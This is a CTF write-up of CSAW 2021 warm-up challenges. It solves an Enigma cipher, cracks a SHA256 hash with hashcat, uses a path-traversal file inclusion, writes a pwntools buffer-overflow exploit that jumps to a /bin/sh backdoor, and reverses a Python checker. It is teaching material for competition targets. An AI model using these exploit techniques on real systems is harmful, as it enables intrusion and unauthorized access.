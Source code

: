 +++
title = "CSAW CTF Qualification Round 2021 - warm-up"
date = 2021-09-13
[taxonomies]
categories = ["ctfs"]
tags = ["csawctf2021"]
+++

# Turing

## Task description

Recruiting the next Turing. See if you can break this historic cipher! Ciphertext: `jmodtrr_tdwumtu_cydy_ynsldf` You might need this: M3 UKW B

## Solution

[enigma online decoder](https://cryptii.com/pipes/enigma-decoder) \
foreign chars: include

flag: `flag{scruffy_looking_nerf_herder}`

# Crack Me

## Task description

Can you crack this? Your hash: `a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c`. Your salt: the encryption method of the hash. (So if the hash is of the word example, you would submit flag{example} to score points.) UPDATE Friday 9PM: To streamline your efforts we would like to give you some more details about the format for the hash encryption method. An example: if you think the hash is RIPEMD-128, use ripemd128 for the salt.

## Solution

Using [hash identifier](https://hashes.com/en/tools/hash_identifier) I found out that it's a SHA256 hash.

Then I created a file for hashcat with the possible hashes (that was before the hint was added).

```
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:SHA256
```

And run it on the rockyou wordlist (-m flag explained [here](https://hashcat.net/wiki/doku.php?id=example_hashes)): \
`hashcat -m 1420 --show hashes.txt /usr/share/wordlists/rockyou.txt`

The output: \
`a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256:cathouse`

Therefore, the flag is: `flag{cathouse}`

# poem-collection

## Task description

Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!

## Solution

Unfortunately, the organizers took the ctf's infrastructure down right after it ended but basically the site was printing out a file based on the parameter poem. For example: `http://web.chal.csaw.io:5003/poems/?poem=poem.txt`. In addition, the first time you browse to the site (without any parameter) you see this warning `Warning: file_get_contents(): Filename cannot be empty in /var/www/html/poems/index.php on line 4`.

My first try was: `http://web.chal.csaw.io:5003/poems/?poem=index.php` which dumped the site's code. Then I just tried out `flag.txt` and `../flag.txt` which worked.

The flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

# Password Checker

## Task description

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

[password_checker](/files/csawctf2021/warm-up/password_checker)

## Solution

Opening it up in ghidra, we see this decompiled code:

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  password_checker();
  return 0;
}

void password_checker(void)
{
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;

  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}
```

In addition, we find a very convenient function included.

```c
void backdoor(void)
{
  system("/bin/sh");
  return;
}
```

So, the password checking thing is a diversion, what we're really interested in is the fact that the application uses `gets` to read the line. Buffer overflow!

Now, to the exploitation. First, generate a cyclic pattern a bit longer than the buffer `gets` writes to:

```
pwn cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

Then, run load the app in gdb and enter the pattern. We get the expected segfault. Let's read the $rsp:

```
(gdb) x/x $rsp
0x7fffffffdf28: 0x61616173
```

Get the length:

```
pwn cyclic -l 0x61616173
72
```

The last thing we need is the backdoor function's address:

```
(gdb) info address backdoor
Symbol "backdoor" is at 0x401172 in a file compiled without debugging.
```

The exploit:

```py3
from pwn import *

# io = process("./password_checker")
io = remote("pwn.chal.csaw.io", 5000)

payload = b"A" * 72 # or just use cyclic_find(0x61616173)
payload += p64(0x00401172)

io.sendline(payload)

io.interactive()
```

The flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

# checker

## Task description

What's up with all the zeros and ones? Where are my letters and numbers? (This is a reversing challenge.)

[checker.py](/files/csawctf2021/warm-up/checker.py)

## Solution

I just reversed the algorithm in the main function by adding these lines after the definition of the encrypted flag:

```py3
encoded = encoded[::-1]
encoded = right(encoded, 24)
encoded = down(encoded)
encoded = right(encoded, len(encoded) - 24)

for i in range(0, len(encoded), 8):
    c = int(encoded[i : i + 8], base=2)
    print(chr(c >> 1), end="")
```

The flag: `flag{r3vers!nG_w@rm_Up}`
